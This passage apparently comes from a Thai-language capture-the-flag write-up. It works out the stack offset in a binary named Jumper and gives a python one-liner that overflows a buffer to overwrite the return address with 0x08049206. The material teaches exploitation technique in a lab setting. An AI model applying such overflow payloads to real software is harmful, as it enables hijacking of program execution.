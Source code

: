 ![44.png](./images/44.png)

หลังจากที่ break แล้ว ก่อนหน้านี้เราได้ยัด เลข 5 เข้าไป และ A จำนวน 32 ตัว จะพบว่า stack เป็นดังนี้ ซึ่งจะเห็นว่าเราต้องเขียนทับไปอีก 4 word หรือก็คือ 16 bytes นั้นเองถึงจะโดน return address

แล้วเราจะเขียนยัดอะไรเข้าไปละ เราก็แปลง `0x08049206` เป็น little-endian ซึ่งจะได้ `\x06\x92\x04\x08`

สรุป เราต้องยัดเลขหลอก scanf รอบแรกไปก่อน แล้วต่อด้วยขยะขนาด 32 + 16 bytes แล้วตามด้วย address `\x06\x92\x04\x08`

```sh
python -c "import sys; sys.stdout.buffer.write(b'1\n' + (b'A'*(32+16)) + b'\x06\x92\x04\x08')" | ./Jumper
```

![45.png](./images/45.png)

